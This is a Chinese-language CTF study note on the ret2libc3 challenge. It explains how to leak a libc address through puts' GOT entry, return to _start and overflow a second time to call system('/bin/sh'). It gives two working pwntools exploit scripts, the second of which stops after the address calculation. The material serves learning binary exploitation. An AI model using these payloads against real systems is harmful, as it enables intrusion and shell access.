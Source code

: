 ### 例3

没有 system 也没有 /bin/sh，需要使用 libc 中的 system 和 /bin/sh，知道了libc中的一个函数的地址就可以确定该程序利用的 libc，从而知道其他函数的地址

获得 libc 的某个函数的地址通常采用的方法是：通过 got 表泄露，但是由于libc的延迟绑定，需要泄露的是已经执行过的函数的地址

总的来说：

1、通过第一次溢出，通过将 puts 的 PLT 地址放到返回处，泄漏出执行过的函数的 GOT 地址（实际上 puts 的就可以）

2、将 puts 的返回地址设置为 _start 函数（main () 函数是用户代码的入口，是对用户而言的；而_start () 函数是系统代码的入口，是程序真正的入口），方便再次用来执行 system('/bin/sh')

3、通过泄露的函数的 GOT 地址计算出 libc 中的 system 和 /bin/sh 的地址

4、再次通过溢出将返回地址覆盖成泄露出来的 system 的地址 getshell

自己写的exp：

```
#!/usr/bin/env python
from pwn import *
from LibcSearcher import *
elf=ELF('ret2libc3')
p=process('./ret2libc3')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
start_addr = elf.symbols['_start']
#gdb.attach(p)
payload1='A'*112+p32(puts_plt)+p32(start_addr)+p32(puts_got)
p.sendlineafter("!?",payload1)
puts_addr=u32(p.recv(4))
libc=LibcSearcher('puts',puts_addr)
libcbase=puts_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload2='A'*112+p32(system_addr)+p32(1234)+p32(binsh_addr)
p.sendlineafter("!?",payload2)
p.interactive()
```

dalao的 exp：

```
from pwn import *
sh = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = elf.libc

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
start_addr = elf.symbols['_start']
print "[*]puts plt: " + hex(puts_plt)
print "[*]puts got: " + hex(puts_got)
print "[*]_start addr: " + hex(start_addr)
print "[*]libc addr: " + hex(libc.address)
print "--" * 20
print "[*]sending payload1 to leak libc..."

payload = flat(["A" * 112, puts_plt, start_addr, puts_got])

sh.sendlineafter("Can you find it !?", payload)
puts_addr = u32(sh.recv(4))
print "[*]leak puts addr: " + hex(puts_addr)

libc.address = puts_addr - libc.symbols['puts']
system_addr = libc.symbols['system']
binsh_addr = next(libc.search('/bin/sh'))
```